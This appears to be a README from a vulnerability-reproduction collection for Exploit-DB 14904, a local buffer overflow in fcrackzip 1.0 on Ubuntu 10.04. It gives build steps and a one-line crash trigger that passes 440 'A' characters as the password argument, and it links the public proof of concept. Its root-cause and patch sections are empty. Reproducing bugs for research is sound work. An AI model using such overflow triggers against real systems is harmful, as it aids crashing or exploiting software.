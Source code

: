 # EDB-14904

## Experiment Environment

Ubuntu 10.04

## INSTALL & Configuration

```
wget https://github.com/mudongliang/source-packages/raw/master/EDB-14904/fcrackzip-1.0.tar.gz
tar -xvf fcrackzip-1.0.tar.gz
cd fcrackzip-1.0
./configure
make
```

## Problems in Installation & Configuration


## How to trigger vulnerability

```
./fcrackzip -p $(python -c 'print "A"*440') file.zip
```

## PoCs

[FCrackZip 1.0 - Local Buffer Overflow (PoC)](https://www.exploit-db.com/exploits/14904/)

## Vulnerability Patch

### Root Cause

### Stack Trace

### Patch

## References

